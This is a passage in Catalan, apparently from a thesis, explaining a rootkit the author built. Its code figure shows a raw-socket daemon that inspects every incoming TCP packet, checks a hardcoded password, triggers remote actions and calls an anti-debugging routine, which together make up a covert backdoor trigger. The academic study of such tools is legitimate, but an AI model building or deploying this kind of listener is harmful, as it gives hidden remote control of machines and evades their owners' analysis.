 Una descripció més conceptual del funcionament d'aquest protocol de comunicació, ha estat comentada en 
detall amb l'ajuda d'esquemes en la secció \ref{sec:disseny_mode_privilegiat} del capítol de disseny de la 
solució. Per al major 
aprofitament d'aquest punt, se'n recomana la lectura prèvia. \\

\subsection{Modes de comunicació}
Tal i com es pot veure en la figura \ref{fig:launcher_raw_daemon}, quan el rootkit es troba en execució en un entorn 
privilegiat, es troba executant un while on cada paquet de xarxa que arriba a la màquina (independentment
de si el port de destí està obert o no), la funció recvfrom el rep. Com que la majoria de paquets que
rebrà una màquina, no seran paquets nostres, ens interessa que aquesta funció tingui la menor latència 
possible per afectar el mínim possible a la màquina on s'executi el nostre rootkit. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
sock @PYbe[=] socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
@PYay[if] (sock @PYbe[<] @PYag[0]) {
    debug(@PYaB["]@PYaB[Can't allocate raw socket]@PYao[\n]@PYaB["]);
    exit(@PYbe[-]@PYag[1]);
}

antidebug_obfuscate_analysis(@PYag[16]);

@PYay[while] (@PYag[1]) {
    size @PYbe[=] recvfrom(sock, @PYbe[&]p, @PYay[sizeof](p), @PYag[0], (@PYay[struct] sockaddr @PYbe[*]) @PYbe[&]raw, @PYbe[&]slen);
    @PYaE[// Si el tamany del paquet es el que toca]
    @PYay[if] (size @PYbe[=]@PYbe[=] @PYay[sizeof](@PYay[struct] packet)) {
        @PYaE[// I el password és correcte]
        @PYay[if] (@PYbe[!]memcmp(CLIENTAUTH, p.action.pass, @PYag[20])) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet d'autenticat (action: %d)]@PYao[\n]@PYaB["], p.action.action);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        } @PYay[else] @PYay[if] (@PYbe[!]memcmp(CHECKSTR, p.action.pass, @PYag[20]) 
            @PYbe[&]@PYbe[&] (p.action.action @PYbe[=]@PYbe[=] CHECK @PYbe[|]@PYbe[|] p.action.action @PYbe[=]@PYbe[=] REVCHECK)) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet de CHECK]@PYao[\n]@PYaB["]);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        }
    }
}
\end{Verbatim}
    \caption{launcher.c::raw\_daemon()}
    \label{fig:launcher_raw_daemon}
\end{figure}

